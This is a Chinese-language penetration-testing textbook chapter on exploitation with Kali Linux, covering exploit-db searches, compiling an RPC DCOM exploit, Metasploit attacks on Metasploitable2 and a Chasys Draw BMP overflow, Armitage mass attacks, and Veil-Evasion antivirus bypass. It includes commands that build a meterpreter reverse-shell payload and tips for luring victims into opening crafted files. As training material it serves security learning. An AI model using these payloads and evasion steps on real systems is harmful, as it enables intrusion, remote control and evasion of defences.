# 第四章：利用

被动和主动侦察的目标是识别最有可能支持测试人员或攻击者目标（拒绝服务、窃取或修改数据）的可利用安全漏洞。杀链的利用阶段侧重于创建实现目标的访问——要么通过创建拒绝服务来停止对目标的访问，要么通过建立对目标的持久访问来实现更常见的方法。

渗透测试人员必须关注利用阶段的以下方面：

+   目标是否被充分描述？如果攻击者不了解目标的网络和主机架构，攻击将失败，并且被发现的风险会增加。

+   利用是否广为人知，在目标系统上有明确定义的行动？未经描述的利用在使用时可能会产生意想不到的后果，造成的损害可能对测试过程产生负面影响。测试人员应在已知环境中验证所有利用。

+   利用是从远程位置进行还是在目标系统上本地进行？远程利用对攻击者更安全，因为被积极识别的机会较小；然而，本地利用给予攻击者更多对利用行动的控制，并减少了被发现的可能性。

+   什么是所需的后利用活动？如果攻击者需要从目标中窃取数据，那么利用必须支持建立交互连接。

+   是否需要对受损系统进行持久访问，还是妥协将是短期的？这将驱动对隐蔽方法的要求。

已经确定了数千个可利用的漏洞，大多数与至少一个概念验证代码或技术相关，允许系统被攻破。然而，支配成功的基本原则在网络、操作系统和应用程序中是相同的。

在本章中，您将学到：

+   威胁建模

+   使用在线和本地漏洞资源

+   使用 Metasploit 框架对远程目标进行利用

+   使用 Armitage 利用多个目标

+   绕过 ID 和防病毒检测

# 威胁建模

被动和主动侦察阶段绘制目标网络和系统，并确定可能可利用以实现攻击者目标的漏洞。在攻击者的杀伤链的这个阶段，行动有很强的偏见——测试人员希望立即发动攻击并证明他们可以威胁目标。然而，未经计划的攻击可能不是实现目标的最有效手段，并且可能会牺牲实现攻击目标所需的隐秘性。

渗透测试人员已经采用（正式或非正式）一种称为威胁建模的过程，最初是由网络规划者开发的，用于制定防御性对策来对抗攻击。

渗透测试人员和攻击者已经将防御性威胁建模方法学颠倒过来，以提高攻击的成功率。进攻性威胁建模是一种正式的方法，它结合了侦察和研究的结果，以制定攻击策略。攻击者必须考虑可用的目标，并确定以下列出的目标类型：

+   **主要目标**：这些目标一旦受到威胁，就会立即支持目标。

+   **次要目标**：这些目标可能提供信息（安全控制、密码和日志策略，以及本地和域管理员的名称和密码）以支持攻击或允许访问主要目标。

+   **第三目标**：这些目标可能与测试或攻击目标无关，但相对容易受到威胁，可能提供信息或分散注意力，使攻击的实际目标。

对于每种目标类型，测试人员必须确定要使用的方法。可以使用隐身技术攻击单个漏洞，也可以使用大量攻击来攻击多个目标，以快速利用目标。如果实施大规模攻击，防御者控制设备中的噪音通常会导致他们最小化路由器和防火墙上的日志记录，甚至完全禁用它们。

要使用的方法将指导利用的选择。通常，攻击者在创建威胁模型时遵循攻击树方法论，如下图所示：



攻击树方法允许测试人员轻松地可视化可用的攻击选项以及如果选择的攻击不成功可以采用的替代选项。生成攻击树后，利用阶段的下一步是确定可能用于攻击目标中的漏洞的利用。

# 使用在线和本地漏洞资源

被动和主动侦察共同确定了目标的*攻击面*，即可以评估漏洞的总点数。只安装操作系统的服务器只有在该特定操作系统中存在漏洞时才能被利用；然而，每安装一个应用程序，潜在漏洞的数量就会增加。

渗透测试人员和攻击者必须找到可能会危及已知和疑似漏洞的特定利用。开始搜索的第一个地方是供应商网站；大多数硬件和应用程序供应商在发布补丁和升级时会发布有关漏洞的信息。如果已知某个弱点的利用，大多数供应商都会向其客户强调这一点。尽管他们的意图是允许客户自行测试漏洞的存在，但攻击者和渗透测试人员也会利用这些信息。

收集、分析和共享有关漏洞的其他在线站点如下：

+   美国政府发布的所有公共漏洞数据的国家漏洞数据库可在[`web.nvd.nist.gov/view/vuln/search`](http://web.nvd.nist.gov/view/vuln/search)上找到。

+   Secunia 可在[`secunia.com/community/`](http://secunia.com/community/)上找到。

+   **开放源代码漏洞数据库项目**（**OSVDP**）可在[`www.osvdb.org/search/advsearch`](http://www.osvdb.org/search/advsearch)上找到。

+   Packetstorm security 可在[`packetstormsecurity.com/`](http://packetstormsecurity.com/)上找到。

+   SecurityFocus 可在[`www.securityfocus.com/vulnerabilities`](http://www.securityfocus.com/vulnerabilities)上找到。

+   Inj3ct0r 可在[`1337day.com/`](http://1337day.com/)上找到。

+   Offensive Security 维护的 Exploit Database 可在[`www.db-exploit.com`](http://www.db-exploit.com)上找到。

漏洞数据库也被复制到 Kali 本地，并且可以在`/usr/share/exploitdb`目录中找到。在使用之前，请确保已使用以下命令进行更新：

```
 cd /usr/share/exploitdb
 wget http://www.exploit-db.com/archive.tar.bz2
 tar -xvjf archive.tar.bz2
 rm archive.tar.bz2

```

要搜索`exploitdb`的本地副本，请打开终端窗口并在命令提示符中输入`searchsploit`和所需的搜索词。这将调用一个脚本，该脚本搜索包含所有漏洞利用程序列表的数据库文件（`.csv`）。搜索将返回已知漏洞的描述以及相关漏洞利用程序的路径。漏洞利用程序可以被提取、编译并针对特定漏洞运行。请看下图，显示了漏洞的描述：


### 提示

搜索脚本会从左到右扫描 CSV 文件的每一行，因此搜索词的顺序很重要——搜索`oracle 10g`将返回几种漏洞利用程序，但`10g oracle`将不会返回任何结果。此外，该脚本对大小写敏感；尽管您被指示在搜索词中使用小写字符，但搜索`Bulletproof FTP`不会返回任何结果，但`bulletproof FTP`会返回七个结果，而`bulletproof ftp`不会返回任何结果。可以使用`grep`命令或类似 KWrite（`apt-get install kwrite`）的搜索工具更有效地搜索 CSV 文件。

本地数据库搜索可能会识别出几种可能的漏洞利用程序，并附有描述和路径列表；但是，这些都必须根据您的环境进行定制，然后再进行编译。将漏洞利用程序复制到`/tmp`目录（给定的路径没有考虑到`/windows/remote`目录位于`/platforms`目录中）。

以 Perl、Ruby 和 PHP 等脚本形式呈现的漏洞利用程序相对容易实现。例如，如果目标是可能对 WebDAV 远程身份验证绕过存在漏洞的 Microsoft II 6.0 服务器，请将漏洞利用程序复制到根目录，然后作为标准 Perl 脚本执行，如下图所示：


许多漏洞利用程序都是以源代码形式提供的，必须在使用之前进行编译。例如，搜索 RPC 特定漏洞可能会识别出几种可能的漏洞利用程序。以下是摘录的一部分：


`76.c`标识的 RPC DCOM 漏洞据实践所知相对稳定。因此，我们将以此为例。要编译此漏洞利用程序，请将其从存储目录复制到`/tmp`目录。在该位置，使用以下命令使用 GCC 进行编译：

```
 root@kali:~# gcc 76.c -o 76.exe

```

这将使用 GNU 编译器集合应用程序将`76.c`编译为一个名为`76.exe`的文件，如下图所示：


当您针对目标调用应用程序时，必须使用符号链接调用可执行文件（不存储在`/tmp`目录中），如下所示：

```
 root@kali:~# ./76.exe

```

这个漏洞的源代码有很好的文档记录，并且在执行时所需的参数清晰明了，如下面的截图所示：


不幸的是，并非所有来自漏洞数据库和其他公共来源的漏洞利用都像`76.c`那样容易编译。以下列出了一些问题，这些问题使得使用这些漏洞利用变得棘手，甚至对渗透测试人员来说是危险的：

+   故意的错误或不完整的源代码经常会遇到，因为经验丰富的开发人员试图让那些不熟悉的用户，尤其是试图在不了解风险的情况下破坏系统的初学者远离漏洞利用。

+   漏洞利用并不总是有足够的文档记录；毕竟，没有标准来规范旨在用于破坏数据系统的代码的创建和使用。因此，它们可能难以使用，特别是对于缺乏应用开发专业知识的测试人员来说。

+   由于环境的变化（目标系统应用新的补丁和目标应用程序的语言变化）导致的不一致行为可能需要对源代码进行重大修改；同样，这可能需要一个熟练的开发人员。

+   总是有免费可用的代码包含恶意功能的风险。渗透测试人员可能认为自己正在进行**概念验证**（**POC**）练习，并且不知道漏洞利用还在被测试的应用程序中创建了一个后门，这个后门可以被开发人员利用。

为了确保一致的结果并创建一个遵循一致实践的编码社区，已经开发了几个漏洞利用框架。最流行的利用框架是 Metasploit Framework。

## Metasploit Framework

**Metasploit Framework**（**MSF**）是一个旨在促进渗透测试的开源工具。它使用 Ruby 编程语言编写，采用模块化方法来促进漏洞利用。这使得开发和编写漏洞利用变得更容易，也允许复杂的攻击得以轻松实施。

MSF 可以向控制利用的后端模块提供多个接口（控制台、CLI 和 Web）。我们将使用控制台接口，因为它速度快，可以显示攻击命令，并且具有易于理解的配置参数界面。要访问此界面，请在命令提示符中输入`msfconsole`，或者从下拉菜单中选择它，例如**Top 10 Security Tools**。下面的截图显示了应用程序启动时的启动画面：



MSF 由模块组成，这些模块结合起来影响漏洞利用。模块及其特定功能如下：

+   **漏洞利用**：针对特定漏洞的代码片段。主动利用将利用特定目标，运行直到完成，然后退出（例如，缓冲区溢出）。被动利用等待传入主机，例如 Web 浏览器或 FTP 客户端，并在连接时利用它们。

+   **有效载荷**：这些是在成功利用后立即执行命令的恶意代码。

+   **辅助模块**：这些模块不建立或直接支持测试人员和目标系统之间的访问；相反，它们执行支持利用阶段的扫描、模糊测试或嗅探等相关功能。

+   **后置模块**：在成功攻击后，这些模块在受损目标上运行，收集有用的数据，并将攻击者深入到目标网络中。我们将在第五章中了解更多关于后置模块的信息，*目标上的后期利用 - 行动*。

+   **编码器**：当漏洞利用必须绕过防病毒防御时，这些模块对有效载荷进行编码，以便它不能被检测到使用签名匹配技术。

+   **无操作**（**NOPs**）：这些用于在攻击期间促进缓冲区溢出。

这些模块一起用于进行侦察并对目标发动攻击。使用 MSF 对目标系统进行利用的步骤可以总结如下：

1.  选择并配置利用（对目标系统上特定漏洞的代码进行利用）。

1.  检查目标系统以确定其是否容易受到利用的攻击。这一步是可选的，通常会被省略以最小化检测。

1.  选择并配置有效载荷（在成功利用后将在目标系统上执行的代码。例如，从受损系统到源系统的反向 shell）。

1.  选择一种编码技术来绕过检测控制（IDS/IP 或防病毒软件）。

1.  执行利用。

下一个示例代表了针对目标 Linux 操作系统 Metasploitable2 的简单攻击。它可以在[`sourceforge.net/projects/metasploitable/files/Metasploitable2`](http://sourceforge.net/projects/metasploitable/files/Metasploitable2)上找到。Metasploitable2 被设计成易受攻击，并且包含已知和特征化的漏洞，为培训和验证利用工具提供了一个标准平台。

当作为虚拟机安装（在附录中介绍，*安装 Kali Linux*），Metasploitable 可以使用`nmap`进行扫描，以识别开放端口和相关应用程序。以下截图显示了`nmap`扫描的摘录：



在前面的示例中，`nmap`识别了几个应用程序。作为测试人员，我们应该调查每个应用程序是否存在已知的漏洞。其中一个最好的起点是 Metasploit 自己的利用集合。可以使用以下命令行搜索：

```
 msf> search samba

```

返回的 samba 服务利用被列出，并且每个利用都被分配了一个相对的排名，用于表示它们在实现利用时的成功程度。以下截图显示了可用的 samba 利用的摘录：



`exploit/multi/samba/usermap_script`利用被选中用于本示例的其余部分，因为它被评为优秀。这个排名是由 Metasploit 开发团队确定的，用于表示利用在对稳定目标系统的熟练测试人员手中的可靠程度。在现实生活中，多个变量（测试人员技能、网络上的保护设备以及操作系统和托管应用程序的修改）可以共同工作，从而显著改变利用的可靠性。

使用以下`info`命令获取有关该利用的其他信息：

```
 msf> info exploit/multi/samba/usermap_script

```

返回的信息包括参考资料以及以下截图中显示的信息：



为了指示 Metasploit 我们将使用这个利用来攻击目标，我们发出以下命令：

```
 msf> use exploit/multi/samba/usermap_script

```

Metasploit 将命令提示符从`msf>`更改为`msf exploit (usermap_script) >`。

Metasploit 提示测试人员选择有效载荷（从受损系统到攻击者的反向 shell），并设置以下列出的其他变量：

+   **远程主机**（**RHOST**）：这是被攻击系统的 IP 地址

+   **远程端口**（**RPORT**）：这是用于利用的端口号

+   **本地主机**（**LHOST**）：这是用于发动攻击的系统的 IP 地址

在设置了所有变量之后，在提示符下输入`exploit`命令启动攻击。Metasploit 启动攻击，并通过指示`command shell 1 opened`并给出发起和终止反向 shell 的 IP 地址来确认反向 shell 的存在。

为了验证是否存在 shell，测试人员可以查询主机名、用户名（`uname -a`）和`whoami`，以确认结果是特定于位于远程位置的目标系统。看一下下面的截图：



当系统受到这种程度的威胁时，它已经准备好进行后利用活动（参见第五章，*目标上的后利用-目标上的行动*和第六章，*后利用-持久性*）。要向 Metasploit 添加新的利用，在 Ruby 脚本（`.rb`）或 Python（`.py`）中，将它们放在位于您的主目录中的隐藏`.msf4`文件夹中，然后重新加载`msfconsole`。

## 利用易受攻击的应用程序

Metasploit 框架对操作系统和第三方应用程序中的漏洞同样有效。在这个例子中，我们将利用 Chasys Draw IES（版本 4.10.01）中发现的缓冲区溢出漏洞。该漏洞存在于`ReadFile`函数中，该函数用于以不安全的方式存储用户提供的数据。利用结果是在用户的上下文中执行任意代码。

要发起攻击，测试人员需要生成一个特制的 BMP 文件，然后让受害者在 Chasys 应用程序中打开该文件。当这种情况发生时，它将危害基本操作系统（对 Windows XP SP3 和 Windows 7 SP1 有效）。

第一步是打开`msfconsole`并设置 Metasploit 使用`exploit/windows/fileformat/chasys_draw_ies_bof`，如下截图所示：


再次，利用是一个相对简单的利用。测试人员需要从受损系统设置一个反向 shell（`reverse_tcp`）到测试人员的系统，**本地主机**（**LHOST**）。

当利用完成时，它会创建一个特制的 BMP 文件，存储为默认名称`msf.bmp`。为了诱使目标打开文件并避免一些设备可能检测到的默认名称，最好将文件名更改为与预期目标更相关的内容。

下一步是打开一个新的`msfconsole`实例，并为从目标发起的反向 TCP shell 设置一个*监听器*。下面的截图显示了一个简单的监听器：


一旦受害者在易受攻击的应用程序中打开精心制作的 BMP 图像文件，两个系统之间就会打开一个`meterpreter`会话。`msf`提示符被`meterpreter`提示符替换，测试人员可以有效地通过命令行访问远程系统。妥协后的第一步是验证您是否在目标系统上；如下截图所示，`sysinfo`命令识别计算机名称和操作系统，验证了成功的攻击：



# 使用 Armitage 利用多个目标

Armitage 经常被渗透测试人员忽视，他们放弃了其图形用户界面，转而使用传统的 Metasploit 控制台命令行输入。然而，它具有 Metasploit 的功能，同时还可以看到其许多可能的选项，使其成为复杂测试环境中的一个很好的选择。与 Metasploit 不同的是，它还允许您同时测试多个目标——最多可同时测试 512 个目标。

要启动 Armitage，请确保使用以下命令启动数据库和 Metasploit 服务：

```
 service postgresqlstart
  service metasploit start 

```

在完成这一步之后，在命令提示符下输入`armitage`来执行该命令。Armitage 并不总是执行得很干净，可能需要重复启动步骤以确保其正常运行。

要发现可用的目标，您可以通过提供其 IP 地址手动添加主机，或者从菜单栏的**主机**选项卡中选择`nmap`扫描。Armitage 还可以使用 MSF 辅助命令或 DNS 枚举枚举目标。

Armitage 还可以从以下文件导入主机数据：Acunetix、amap、AppScan、Burp 代理、Foundstone、Microsoft 基线安全分析器、Nessus NBE 和 XML 文件、NetSparker、NeXpose、nmap、OpenVas、Qualys 和 Retina。初始的 Armitage 启动屏幕如下截图所示：



Armitage 允许您通过右键选择主机，然后转到**主机**菜单并选择**设置标签...**功能来设置主机标签。这允许您标记特定的地址或通过常用名称标识它，在团队测试时非常有帮助。这个过程在下面的截图中显示：


Armitage 还支持动态工作区-基于网络标准、操作系统、开放端口和服务以及标签的网络的过滤视图。例如，您可以测试一个网络，并识别出几台似乎没有像网络的其余部分那样打补丁的服务器。这些可以通过给它们贴上标签然后将它们放在优先工作区中来突出显示。

一旦您确定了网络上存在的目标系统，您可以选择特定的模块作为利用过程的一部分来实施。您还可以使用菜单栏中的**攻击**选项来查找攻击。

要利用主机，请右键单击选择它，导航到**攻击**项目，并选择一个漏洞利用（确保操作系统设置正确的主机；这并不总是自动发生）。

一个有趣的选项是**Hail Mary**，位于**攻击**选项下。通过选择此功能，所有识别的系统都会自动受到攻击，以实现可能的最大数量的妥协。这是一个非常喧闹的攻击，因此应该作为最后的测试选择。这也是确定入侵检测系统是否实施和配置正确的绝佳方式！

被入侵的系统显示为带有红色边框和电火花的图标。在下一个截图中，两个测试系统已被入侵，并且在这些系统和测试人员之间有四个活动会话。`活动会话`面板显示连接并标识用于入侵目标的漏洞利用。请查看以下截图，表示不同的选项：


### 提示

在进行的渗透测试中，**Hail Mary**选项识别了目标的两个可利用漏洞，并启动了两个活动会话。对同一目标的手动测试最终识别出了八个可利用漏洞，并在被入侵系统和测试人员之间建立了多个通信渠道。这种类型的真实测试加强了渗透测试过程中自动化工具的优势和劣势。

## 使用 Armitage 进行团队测试

Armitage 不仅是 Metasploit Framework 的 GUI 前端；它是一个可编写脚本的渗透测试工具，允许团队使用 Metasploit Framework 的单个实例，以便 GUI 显示以下功能：

+   它使用相同的会话，允许一个测试人员监督过程，识别感兴趣的发现，并控制测试的方向。

+   它运行脚本来自动化测试任务。

+   它共享下载的文件，如密码文件。这使得一个团队成员可以专注于破解密码，而其他团队成员继续利用阶段。

+   它使用共享事件日志进行通信。

为了利用团队配置，请确保 Armitage 尚未运行，然后从`Armitage`目录中的控制台提示中调用`teamserver`脚本，通常位于`/usr/share/armitage`，如下所示：

```
 root@kali:/usr/share/armitage# ./teamserverip_address password

```

确保 IP 地址正确，因为 Armitage 不会验证它，并且所有团队成员都可以在端口`55553`上访问主机。当您启动 Armitage 团队服务器时，它将使用 SSL 证书与团队成员进行通信；团队成员应验证证书的 SHA-1 哈希是否与服务器的 SSL 证书匹配。

当`teamserver`脚本正在运行时，不要连接到`127.0.0.1`，因为 Armitage 使用该 IP 地址进行连接并确定是否应该使用 SSL（`teamserver`或远程地址）或非 SSL（`localhost`或`msfrpcd`）。要将 Armitage 连接到本地的`teamserver`，请在**Host**字段中使用外部 IP 地址。

用户可以打开一个或多个命令行窗口，浏览文件，下载数据并截图。当使用时，Shell 会自动锁定，然后解锁。但是，一些 meterpreter 脚本可能会随着时间的推移而无法正常运行。

为了作为团队进行沟通，菜单中的**View**选项打开了共享事件日志。您可以像使用 IRC 或其他聊天室一样在日志中进行记录，并且日志会保留所有评论的永久记录。

## 编写 Armitage 攻击脚本

Armitage 包括基于 Sleep 的 Cortana 脚本语言，这是一种类似 Perl 的可扩展语言。Cortana 脚本可以定义键盘快捷键、插入菜单并创建独特的用户界面。

脚本可以作为独立实体运行（需要 Armitage 团队服务器处于活动状态）或直接从 Armitage 运行。要加载现有脚本，请在主菜单栏中选择**Armitage**，然后选择**Scripts**。将打开一个带有选项卡的视图，并且一个按钮将给您加载脚本的选项。

阿米特奇还提供了一个脚本环境，可以从菜单的**View | Script Console**选项卡中调用，如下面的屏幕截图所示：


使用 Metasploit Framework 完全扫描目标系统的示例脚本可以编写为`scanner.cna`。每当添加新主机（`host_add`）时，MSF 端口扫描器将扫描一组定义的 TCP 端口和可用的 UDP 端口。看一下下面的代码片段，显示了扫描器脚本：

```
# MSF port scanner
onhost_add {
  println("[*] MSF Port Scanner New Host OpenPorts on$1");
  $console = console();
  cmd($console, "use auxiliary/scanner/portscan/tcp");
  cmd($console, "set THREADS 12");
  cmd($console, "set PORTS 139, 143");
  # enter other ports as required
  cmd($console, "set RHOSTS $1");
  cmd($console, "run -j");
  cmd($console, "use auxiliary/scanner/discovery/udp_sweep");
  cmd($console, "set THREADS 12");
  cmd($console, "set BATCHSIZE 256");
  cmd($console, "set RHOSTS $1");
  cmd($console, "run -j");
  db_sync(); 
}
```

由于 Cortana 与 Metasploit Framework 有广泛的连接，脚本可以用于自动启动利用、进行后期利用活动（如跟踪用户活动）并促进攻击者的杀伤链上的多用户活动。

# 绕过身份验证和防病毒检测

杀伤链的利用阶段对于渗透测试人员或攻击者来说是最危险的阶段——他们直接与目标网络或系统进行交互，并且很有可能被记录下他们的活动或发现他们的身份。再次强调，必须采用隐蔽手段来最小化测试人员的风险。虽然没有特定的方法论或工具是不可检测的，但有一些配置更改和特定工具将使检测更加困难。

在考虑远程利用时，大多数网络和系统都采用各种防御控制来最小化攻击风险。网络设备包括路由器、防火墙、入侵检测和防御系统以及恶意软件检测软件。

为了促进利用，大多数框架都包含使攻击有些隐秘的功能。Metasploit 框架允许您在基于特定漏洞的基础上手动设置逃避因素；然而，确定哪些因素（如加密、端口号、文件名等）可能很困难，并且对于每个特定的 ID 都可能会发生变化。Metasploit 框架还允许目标和攻击系统之间的通信进行加密（`windows/meterpreter/reverse_tcp_rc4`有效载荷），使得难以检测到利用有效载荷。

Metasploit Pro，在 Kali 发行版上作为试用版提供，包括以下内容，专门用于绕过入侵检测系统：

+   可以在**Discovery Scan**的设置中调整扫描速度，通过将速度设置为**sneaky**或**paranoid**来减少与目标的交互速度

+   通过发送更小的 TCP 数据包并增加数据包之间的传输时间来实现传输逃避

+   减少针对目标系统启动的同时利用数量

+   自动设置涉及 DCERPC、HTTP 和 SMB 的漏洞利用的特定于应用程序的逃避选项

大多数防病毒软件依赖于签名匹配来定位病毒和其他恶意软件。它们检查每个可执行文件中已知存在于病毒中的代码字符串（签名），并在检测到可疑字符串时发出警报。Metasploit 的许多攻击依赖于可能具有签名的文件，这些签名随着时间的推移已被防病毒供应商识别出来。

作为回应，Metasploit 框架允许对独立可执行文件进行编码以绕过检测。不幸的是，对这些可执行文件在[virustotal.com](http://virustotal.com)等公共网站进行的广泛测试减弱了它们绕过防病毒软件的效果。

由 Chris Truncer 编写的新的 AV 逃避框架，名为 Veil-Evasion（[www.Veil-Evasion.com](http://www.Veil-Evasion.com)），现在提供了有效的保护，可防止独立利用的检测。Veil-Evasion 将各种 shellcode 注入技术聚合到一个框架中，简化了管理。

作为一个框架，Veil-Evasion 具有以下几个特点：

+   它包含各种编程语言的自定义 shellcode，包括 C、C#和 Python

+   它可以使用 Metasploit 生成的 shellcode

+   它可以集成第三方工具，如 Hyperion（使用 AES-128 位加密对 EXE 文件进行加密）、PEScrambler 和 BackDoor Factory

+   `Veil-Evasion_evasion.cna`脚本允许将 Veil-Evasion 集成到 Armitage 及其商业版本 Cobalt Strike 中

+   有效载荷可以生成并无缝地替换所有 PsExec 调用

+   用户可以重用 shellcode 或实现自己的加密方法

+   其功能可以被脚本化以自动部署

+   Veil-Evasion 在不断发展，框架已经扩展了模块，如 Veil-Evasion-Catapult（有效载荷传递系统）

Veil-Evasion 可以生成一个利用有效载荷；独立有效载荷包括以下选项：

+   最小的 Python 安装来调用 shellcode；它上传了一个最小的`Python.zip`安装包和 7zip 二进制文件。Python 环境被解压缩，调用 shellcode。由于与受害者交互的唯一文件是受信任的 Python 库和解释器，受害者的防病毒软件不会检测或警报任何异常活动。

+   Sethc 后门，配置受害者的注册表以启动粘滞键 RDP 后门。

+   PowerShell shellcode 注入器。

有效载荷创建后，可以通过以下两种方式之一交付给目标：

+   使用 Impacket 和 PTH 工具包上传和执行

+   UNC 调用

Veil-Evasion 可以从 Kali 存储库中获取，例如 Veil-Evasion，只需在命令提示符中输入`apt-get install veil-evasion`即可自动安装。

### 注意

如果在安装过程中遇到任何错误，请重新运行`/usr/share/veil-evasion/setup/setup.sh`脚本。

Veil-Evasion 向用户呈现主菜单，提供加载的有效载荷模块数量以及可用的命令。输入`list`将列出所有可用的`payloads`，`list langs`将列出可用的语言有效载荷，`list <language>`将列出特定语言的有效载荷。Veil-Evasion 的初始启动屏幕如下屏幕截图所示：



Veil-Evasion 正在快速发展，每月发布重要版本，并更频繁地进行重要升级。目前，有 24 个有效载荷旨在通过加密或直接注入内存空间来绕过防病毒软件。这些有效载荷如下屏幕截图所示：



要获取特定有效载荷的信息，请输入`info<payload number / payload name>`或`info <tab>`以自动完成可用的有效载荷。您也可以直接输入列表中的数字。在下面的示例中，我们输入`19`来选择`python/shellcode_inject/aes_encrypt`有效载荷：



利用程序包括一个`expire_payload`选项。如果模块在指定时间内未被目标用户执行，它将变得无法操作。这个功能有助于攻击的隐秘性。

所需的选项包括选项的名称以及默认值和描述。如果默认情况下未完成必需的值，则测试人员需要在生成有效载荷之前输入一个值。要设置选项的值，请输入`set <option name>`，然后输入所需的值。要接受默认选项并创建利用程序，请在命令提示符中输入`generate`。

如果有效载荷使用 shellcode，您将看到 shellcode 菜单，您可以选择`msfvenom`（默认 shellcode）或自定义 shellcode。如果选择自定义 shellcode 选项，请以`\x01\x02`的形式输入 shellcode，不带引号和换行符（`\n`）。如果选择默认的`msfvenom`，您将提示选择`windows/meterpreter/reverse_tcp`的默认有效载荷。如果您希望使用其他有效载荷，请按*Tab*键完成可用的有效载荷。可用的有效载荷如下屏幕截图所示：


在下面的示例中，使用了`[tab]`命令来演示一些可用的有效载荷；然而，默认的（`windows/meterpreter/reverse_tcp`）被选择，如下面的屏幕截图所示：



然后，用户将看到输出菜单，并提示选择生成的有效载荷文件的基本名称。如果有效载荷是基于 Python 的，并且您选择了`compile_to_exe`作为选项，用户将有两个选项，要么使用`Pyinstaller`创建 EXE 文件，要么生成 Py2Exe 文件，如下面的屏幕截图所示：


最终屏幕显示生成的有效载荷信息，如下面的屏幕截图所示：


利用程序也可以直接从命令行创建，使用以下选项：

```
 kali@linux:~./Veil-Evasion.py -p python/shellcode_inject/aes_encrypt  -o -output --msfpayload windows/meterpreter/reverse_tcp --msfoptions LHOST=192.168.43.134 LPORT=4444

```

一旦利用程序被创建，测试人员应该对负载进行 VirusTotal 验证，以确保在放置在目标系统上时不会触发警报。如果负载样本直接提交给 VirusTotal，并且其行为标志着它是恶意软件，那么**防病毒**（AV）供应商可能会在一小时内发布针对提交的签名更新。这就是为什么用户明确被警告“不要将样本提交给任何在线扫描器！”

Veil-Evasion 允许测试人员对 VirusTotal 进行安全检查。当创建任何负载时，都会创建一个 SHA1 哈希并将其添加到`hashes.txt`中，该文件位于`~/veil-output`目录中。测试人员可以调用`checkvt`脚本将哈希提交给 VirusTotal，VirusTotal 将检查 SHA1 哈希值与其恶意软件数据库进行匹配。如果 Veil-Evasion 负载触发了匹配，那么测试人员就知道它可能会被目标系统检测到。如果没有触发匹配，那么利用程序负载将绕过防病毒软件。使用`checkvt`命令进行成功查找（不被 AV 检测到）如下所示：


到目前为止的测试支持了这样的发现，即如果`checkvt`在 VirusTotal 上找不到匹配项，则负载将不会被目标的防病毒软件检测到。要与 Metasploit 框架一起使用，使用`exploit/multi/handler`并将`PAYLOAD`设置为`windows/meterpreter/reverse_tcp`（与 Veil-Evasion 负载选项相同），并且与 Veil-Evasion 一样使用相同的 LHOST 和 LPORT。当监听器正常工作时，将利用程序发送到目标系统。当监听器启动时，它将在攻击者的系统上建立一个反向 shell。

# 摘要

在本章中，我们将利用程序作为将侦察结果转化为定义的行动的工具进行了重点介绍，从而在测试人员和目标之间建立了访问权限。

Kali 提供了几种工具来促进利用程序的开发、选择和激活，包括内部 exploit-db 数据库以及几个简化利用程序使用和管理的框架。在这些框架中，Metasploit 框架和 Armitage 尤为重要；然而，Veil-Evasion 通过其绕过防病毒检测的能力增强了两者。

接下来的两章将重点放在攻击者杀伤链中最重要的部分 - 攻击者的后期利用活动。这是攻击的一部分，攻击者在其中实现其目标。典型的后期利用活动包括窃取和外流数据（专有或财务信息）、通过利用弱访问控制进行水平升级，以及通过窃取用户凭据进行垂直升级。

